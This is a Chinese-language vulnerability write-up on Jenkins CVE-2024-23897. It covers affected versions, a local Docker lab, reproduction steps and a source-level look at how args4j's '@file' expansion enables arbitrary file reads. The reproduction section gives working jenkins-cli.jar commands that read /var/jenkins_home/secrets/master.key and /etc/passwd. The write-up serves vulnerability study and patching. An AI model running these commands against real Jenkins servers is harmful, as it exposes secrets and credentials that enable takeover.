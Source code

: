 

# Jenkins 任意文件读取漏洞（CVE-2024-23897）

## 漏洞简介

Jenkins 有一个内置的命令行界面（CLI），可从脚本或 shell 环境访问 Jenkins。处理 CLI 命令时，Jenkins 使用 args4j 库解析 Jenkins 控制器上的命令参数和选项。由于 Jenkins 受影响版本中默认启用其 CLI 命令解析器的一个功能，特定的解析器功能 expandAtFiles 可将@参数中后跟文件路径的字符替换为文件内容，可能导致威胁者读取 Jenkins 控制器文件系统上的任意文件，或可以进一步利用该漏洞在多种情况下导致远程代码执行。

命令行接口文件读取：Jenkins 内置的命令行接口（CLI）存在一个特性，允许在命令参数中用@字符后跟文件路径来替换为文件内容。这导致攻击者能够读取 Jenkins 控制器文件系统上的任意文件。  
权限绕过：拥有 Overall/Read 权限的攻击者可以读取完整文件，而没有该权限的攻击者也可以读取部分文件内容。

version <\\= Jenkins 2.441  
version <\\= LTS 2.426.2

‍

## 环境搭建

利用 docker 来进行环境搭建 [https://hub.docker.com/r/jenkins/jenkins/tags](https://hub.docker.com/r/jenkins/jenkins/tags)

```python
docker pull jenkins/jenkins:2.440-jdk17
docker run  --name jenkins -p 8090:8080 jenkins/jenkins:2.440-jdk17
```

![](assets/1708223634-e7aec3988b4dd92f63a20274a3dcf136.png)

![](assets/1708223634-b12933a08acaea6b27d17bb99c6a458b.png)

## 漏洞复现

访问路径 [http://127.0.0.1:8090/cli/?remoting=false](http://127.0.0.1:8090/cli/?remoting=false) 下载 jenkins-cli.jar  
![](assets/1708223634-013be851c292b349dbfe257fee4c7155.png)

```python
 java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ who-am-i "@/var/jenkins_home/secrets/master.key"
```

![](assets/1708223634-14678330203fbd07f4e135bfd168ff74.png)

```python
java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ help "@/etc/passwd"
java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ who-am-i "@/etc/passwd"
```

![](assets/1708223634-b10f7caf0f0887721c3df3b2229a722d.png)

‍

## 漏洞分析

比较版本差异性

[https://github.com/jenkinsci/jenkins/compare/jenkins-2.441...jenkins-2.442](https://github.com/jenkinsci/jenkins/compare/jenkins-2.441...jenkins-2.442)

修改内容主要出现在 `src/main/java/hudson/cli/CLICommand.java`​

![](assets/1708223634-73f2f470517d67ee2a27998ed55ea3ce.png)

`hudson.cli.CLICommand#main`​

![](assets/1708223634-93f893da4e5aac37fef00ac4cb85d16d.png)

`org.kohsuke.args4j.CmdLineParser#parseArgument(java.lang.String...)`​

![](assets/1708223634-50445caf12dd501a49ba678c4c8d8d10.png)

`org.kohsuke.args4j.CmdLineParser#expandAtFiles`​

![](assets/1708223634-a7dc4db64d6164197bb7f1e69ec61b36.png)

如果参数以 `@`​ 开头，那么会把 `@`​ 后面的内容作为绝对路径，建立 File 对象，并读取文件内容
